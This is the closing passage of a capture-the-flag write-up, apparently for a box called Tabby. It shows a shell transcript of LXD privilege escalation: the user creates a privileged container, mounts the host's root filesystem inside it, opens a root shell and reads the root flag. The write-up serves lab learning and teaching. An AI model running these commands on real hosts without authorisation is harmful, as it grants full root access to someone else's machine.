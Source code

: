 ```shell
|  ALIAS  | FINGERPRINT  | PUBLIC |               DESCRIPTION               | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-----------------------------------------+--------------+-----------+--------+------------------------------+
| alpine  | fa5b049986a5 | no     | Alpinelinux 3.12 x86_64 (20201107_1032) | x86_64       | CONTAINER | 2.40MB | Nov 7, 2020 at 10:55am (UTC) |
+---------+--------------+--------+-----------------------------------------+--------------+-----------+--------+------------------------------+
| myimage | eca77d19af30 | no     | alpine v3.12 (20201107_21:30)           | x86_64       | CONTAINER | 3.05MB | Nov 7, 2020 at 4:51pm (UTC)  |
+---------+--------------+--------+-----------------------------------------+--------------+-----------+--------+------------------------------+

ash@tabby:~$ lxc init myimage sidchn -c security.privileged=true
lxc init myimage sidchn -c security.privileged=true
Creating sidchn
ash@tabby:~$ lxc config device add sidchn mydevice disk source=/ path=/mnt/root recursive=true
lxc config device add sidchn mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to sidchn
ash@tabby:~$ lxc start sidchn
lxc start sidchn
ash@tabby:~$ lxc exec sidchn /bin/sh
lxc exec sidchn /bin/sh
~ # whoami
whoami
root
~ # id
id
uid=0(root) gid=0(root)

~ # cd /mnt/root/root
cd /mnt/root/root
/mnt/root/root # cat root.txt
cat root.txt
6ab5823df58c34e18f93b8cccb0d28d7
/mnt/root/root #
```
And that was the box, hope you liked my writeup :D

